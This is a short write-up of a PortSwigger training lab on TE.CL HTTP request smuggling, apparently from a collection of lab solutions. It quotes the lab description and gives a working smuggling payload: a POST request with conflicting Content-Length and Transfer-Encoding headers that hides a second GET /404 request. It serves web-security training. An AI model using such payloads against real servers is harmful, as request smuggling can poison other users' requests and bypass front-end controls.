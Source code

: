 
# HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for / (the web root) triggers a 404 Not Found response.

Note: Although the lab supports HTTP/2, the intended solution requires techniques that are only possible in HTTP/1. You can manually switch protocols in Burp Repeater from the Request attributes section of the Inspector panel.

Tip: Manually fixing the length fields in request smuggling attacks can be tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can install it via the BApp Store.

---------------------------------------------

References: 

- https://portswigger.net/web-security/request-smuggling/finding



![img](images/HTTP%20request%20smuggling,%20confirming%20a%20TE.CL%20vulnerability%20via%20differential%20responses/1.png)

---------------------------------------------

It is possible to redirect to /404 using the same payload as in the example, setting the protocol to HTTP/1:

```
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

58
GET /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

0


```



![img](images/HTTP%20request%20smuggling,%20confirming%20a%20TE.CL%20vulnerability%20via%20differential%20responses/2.png)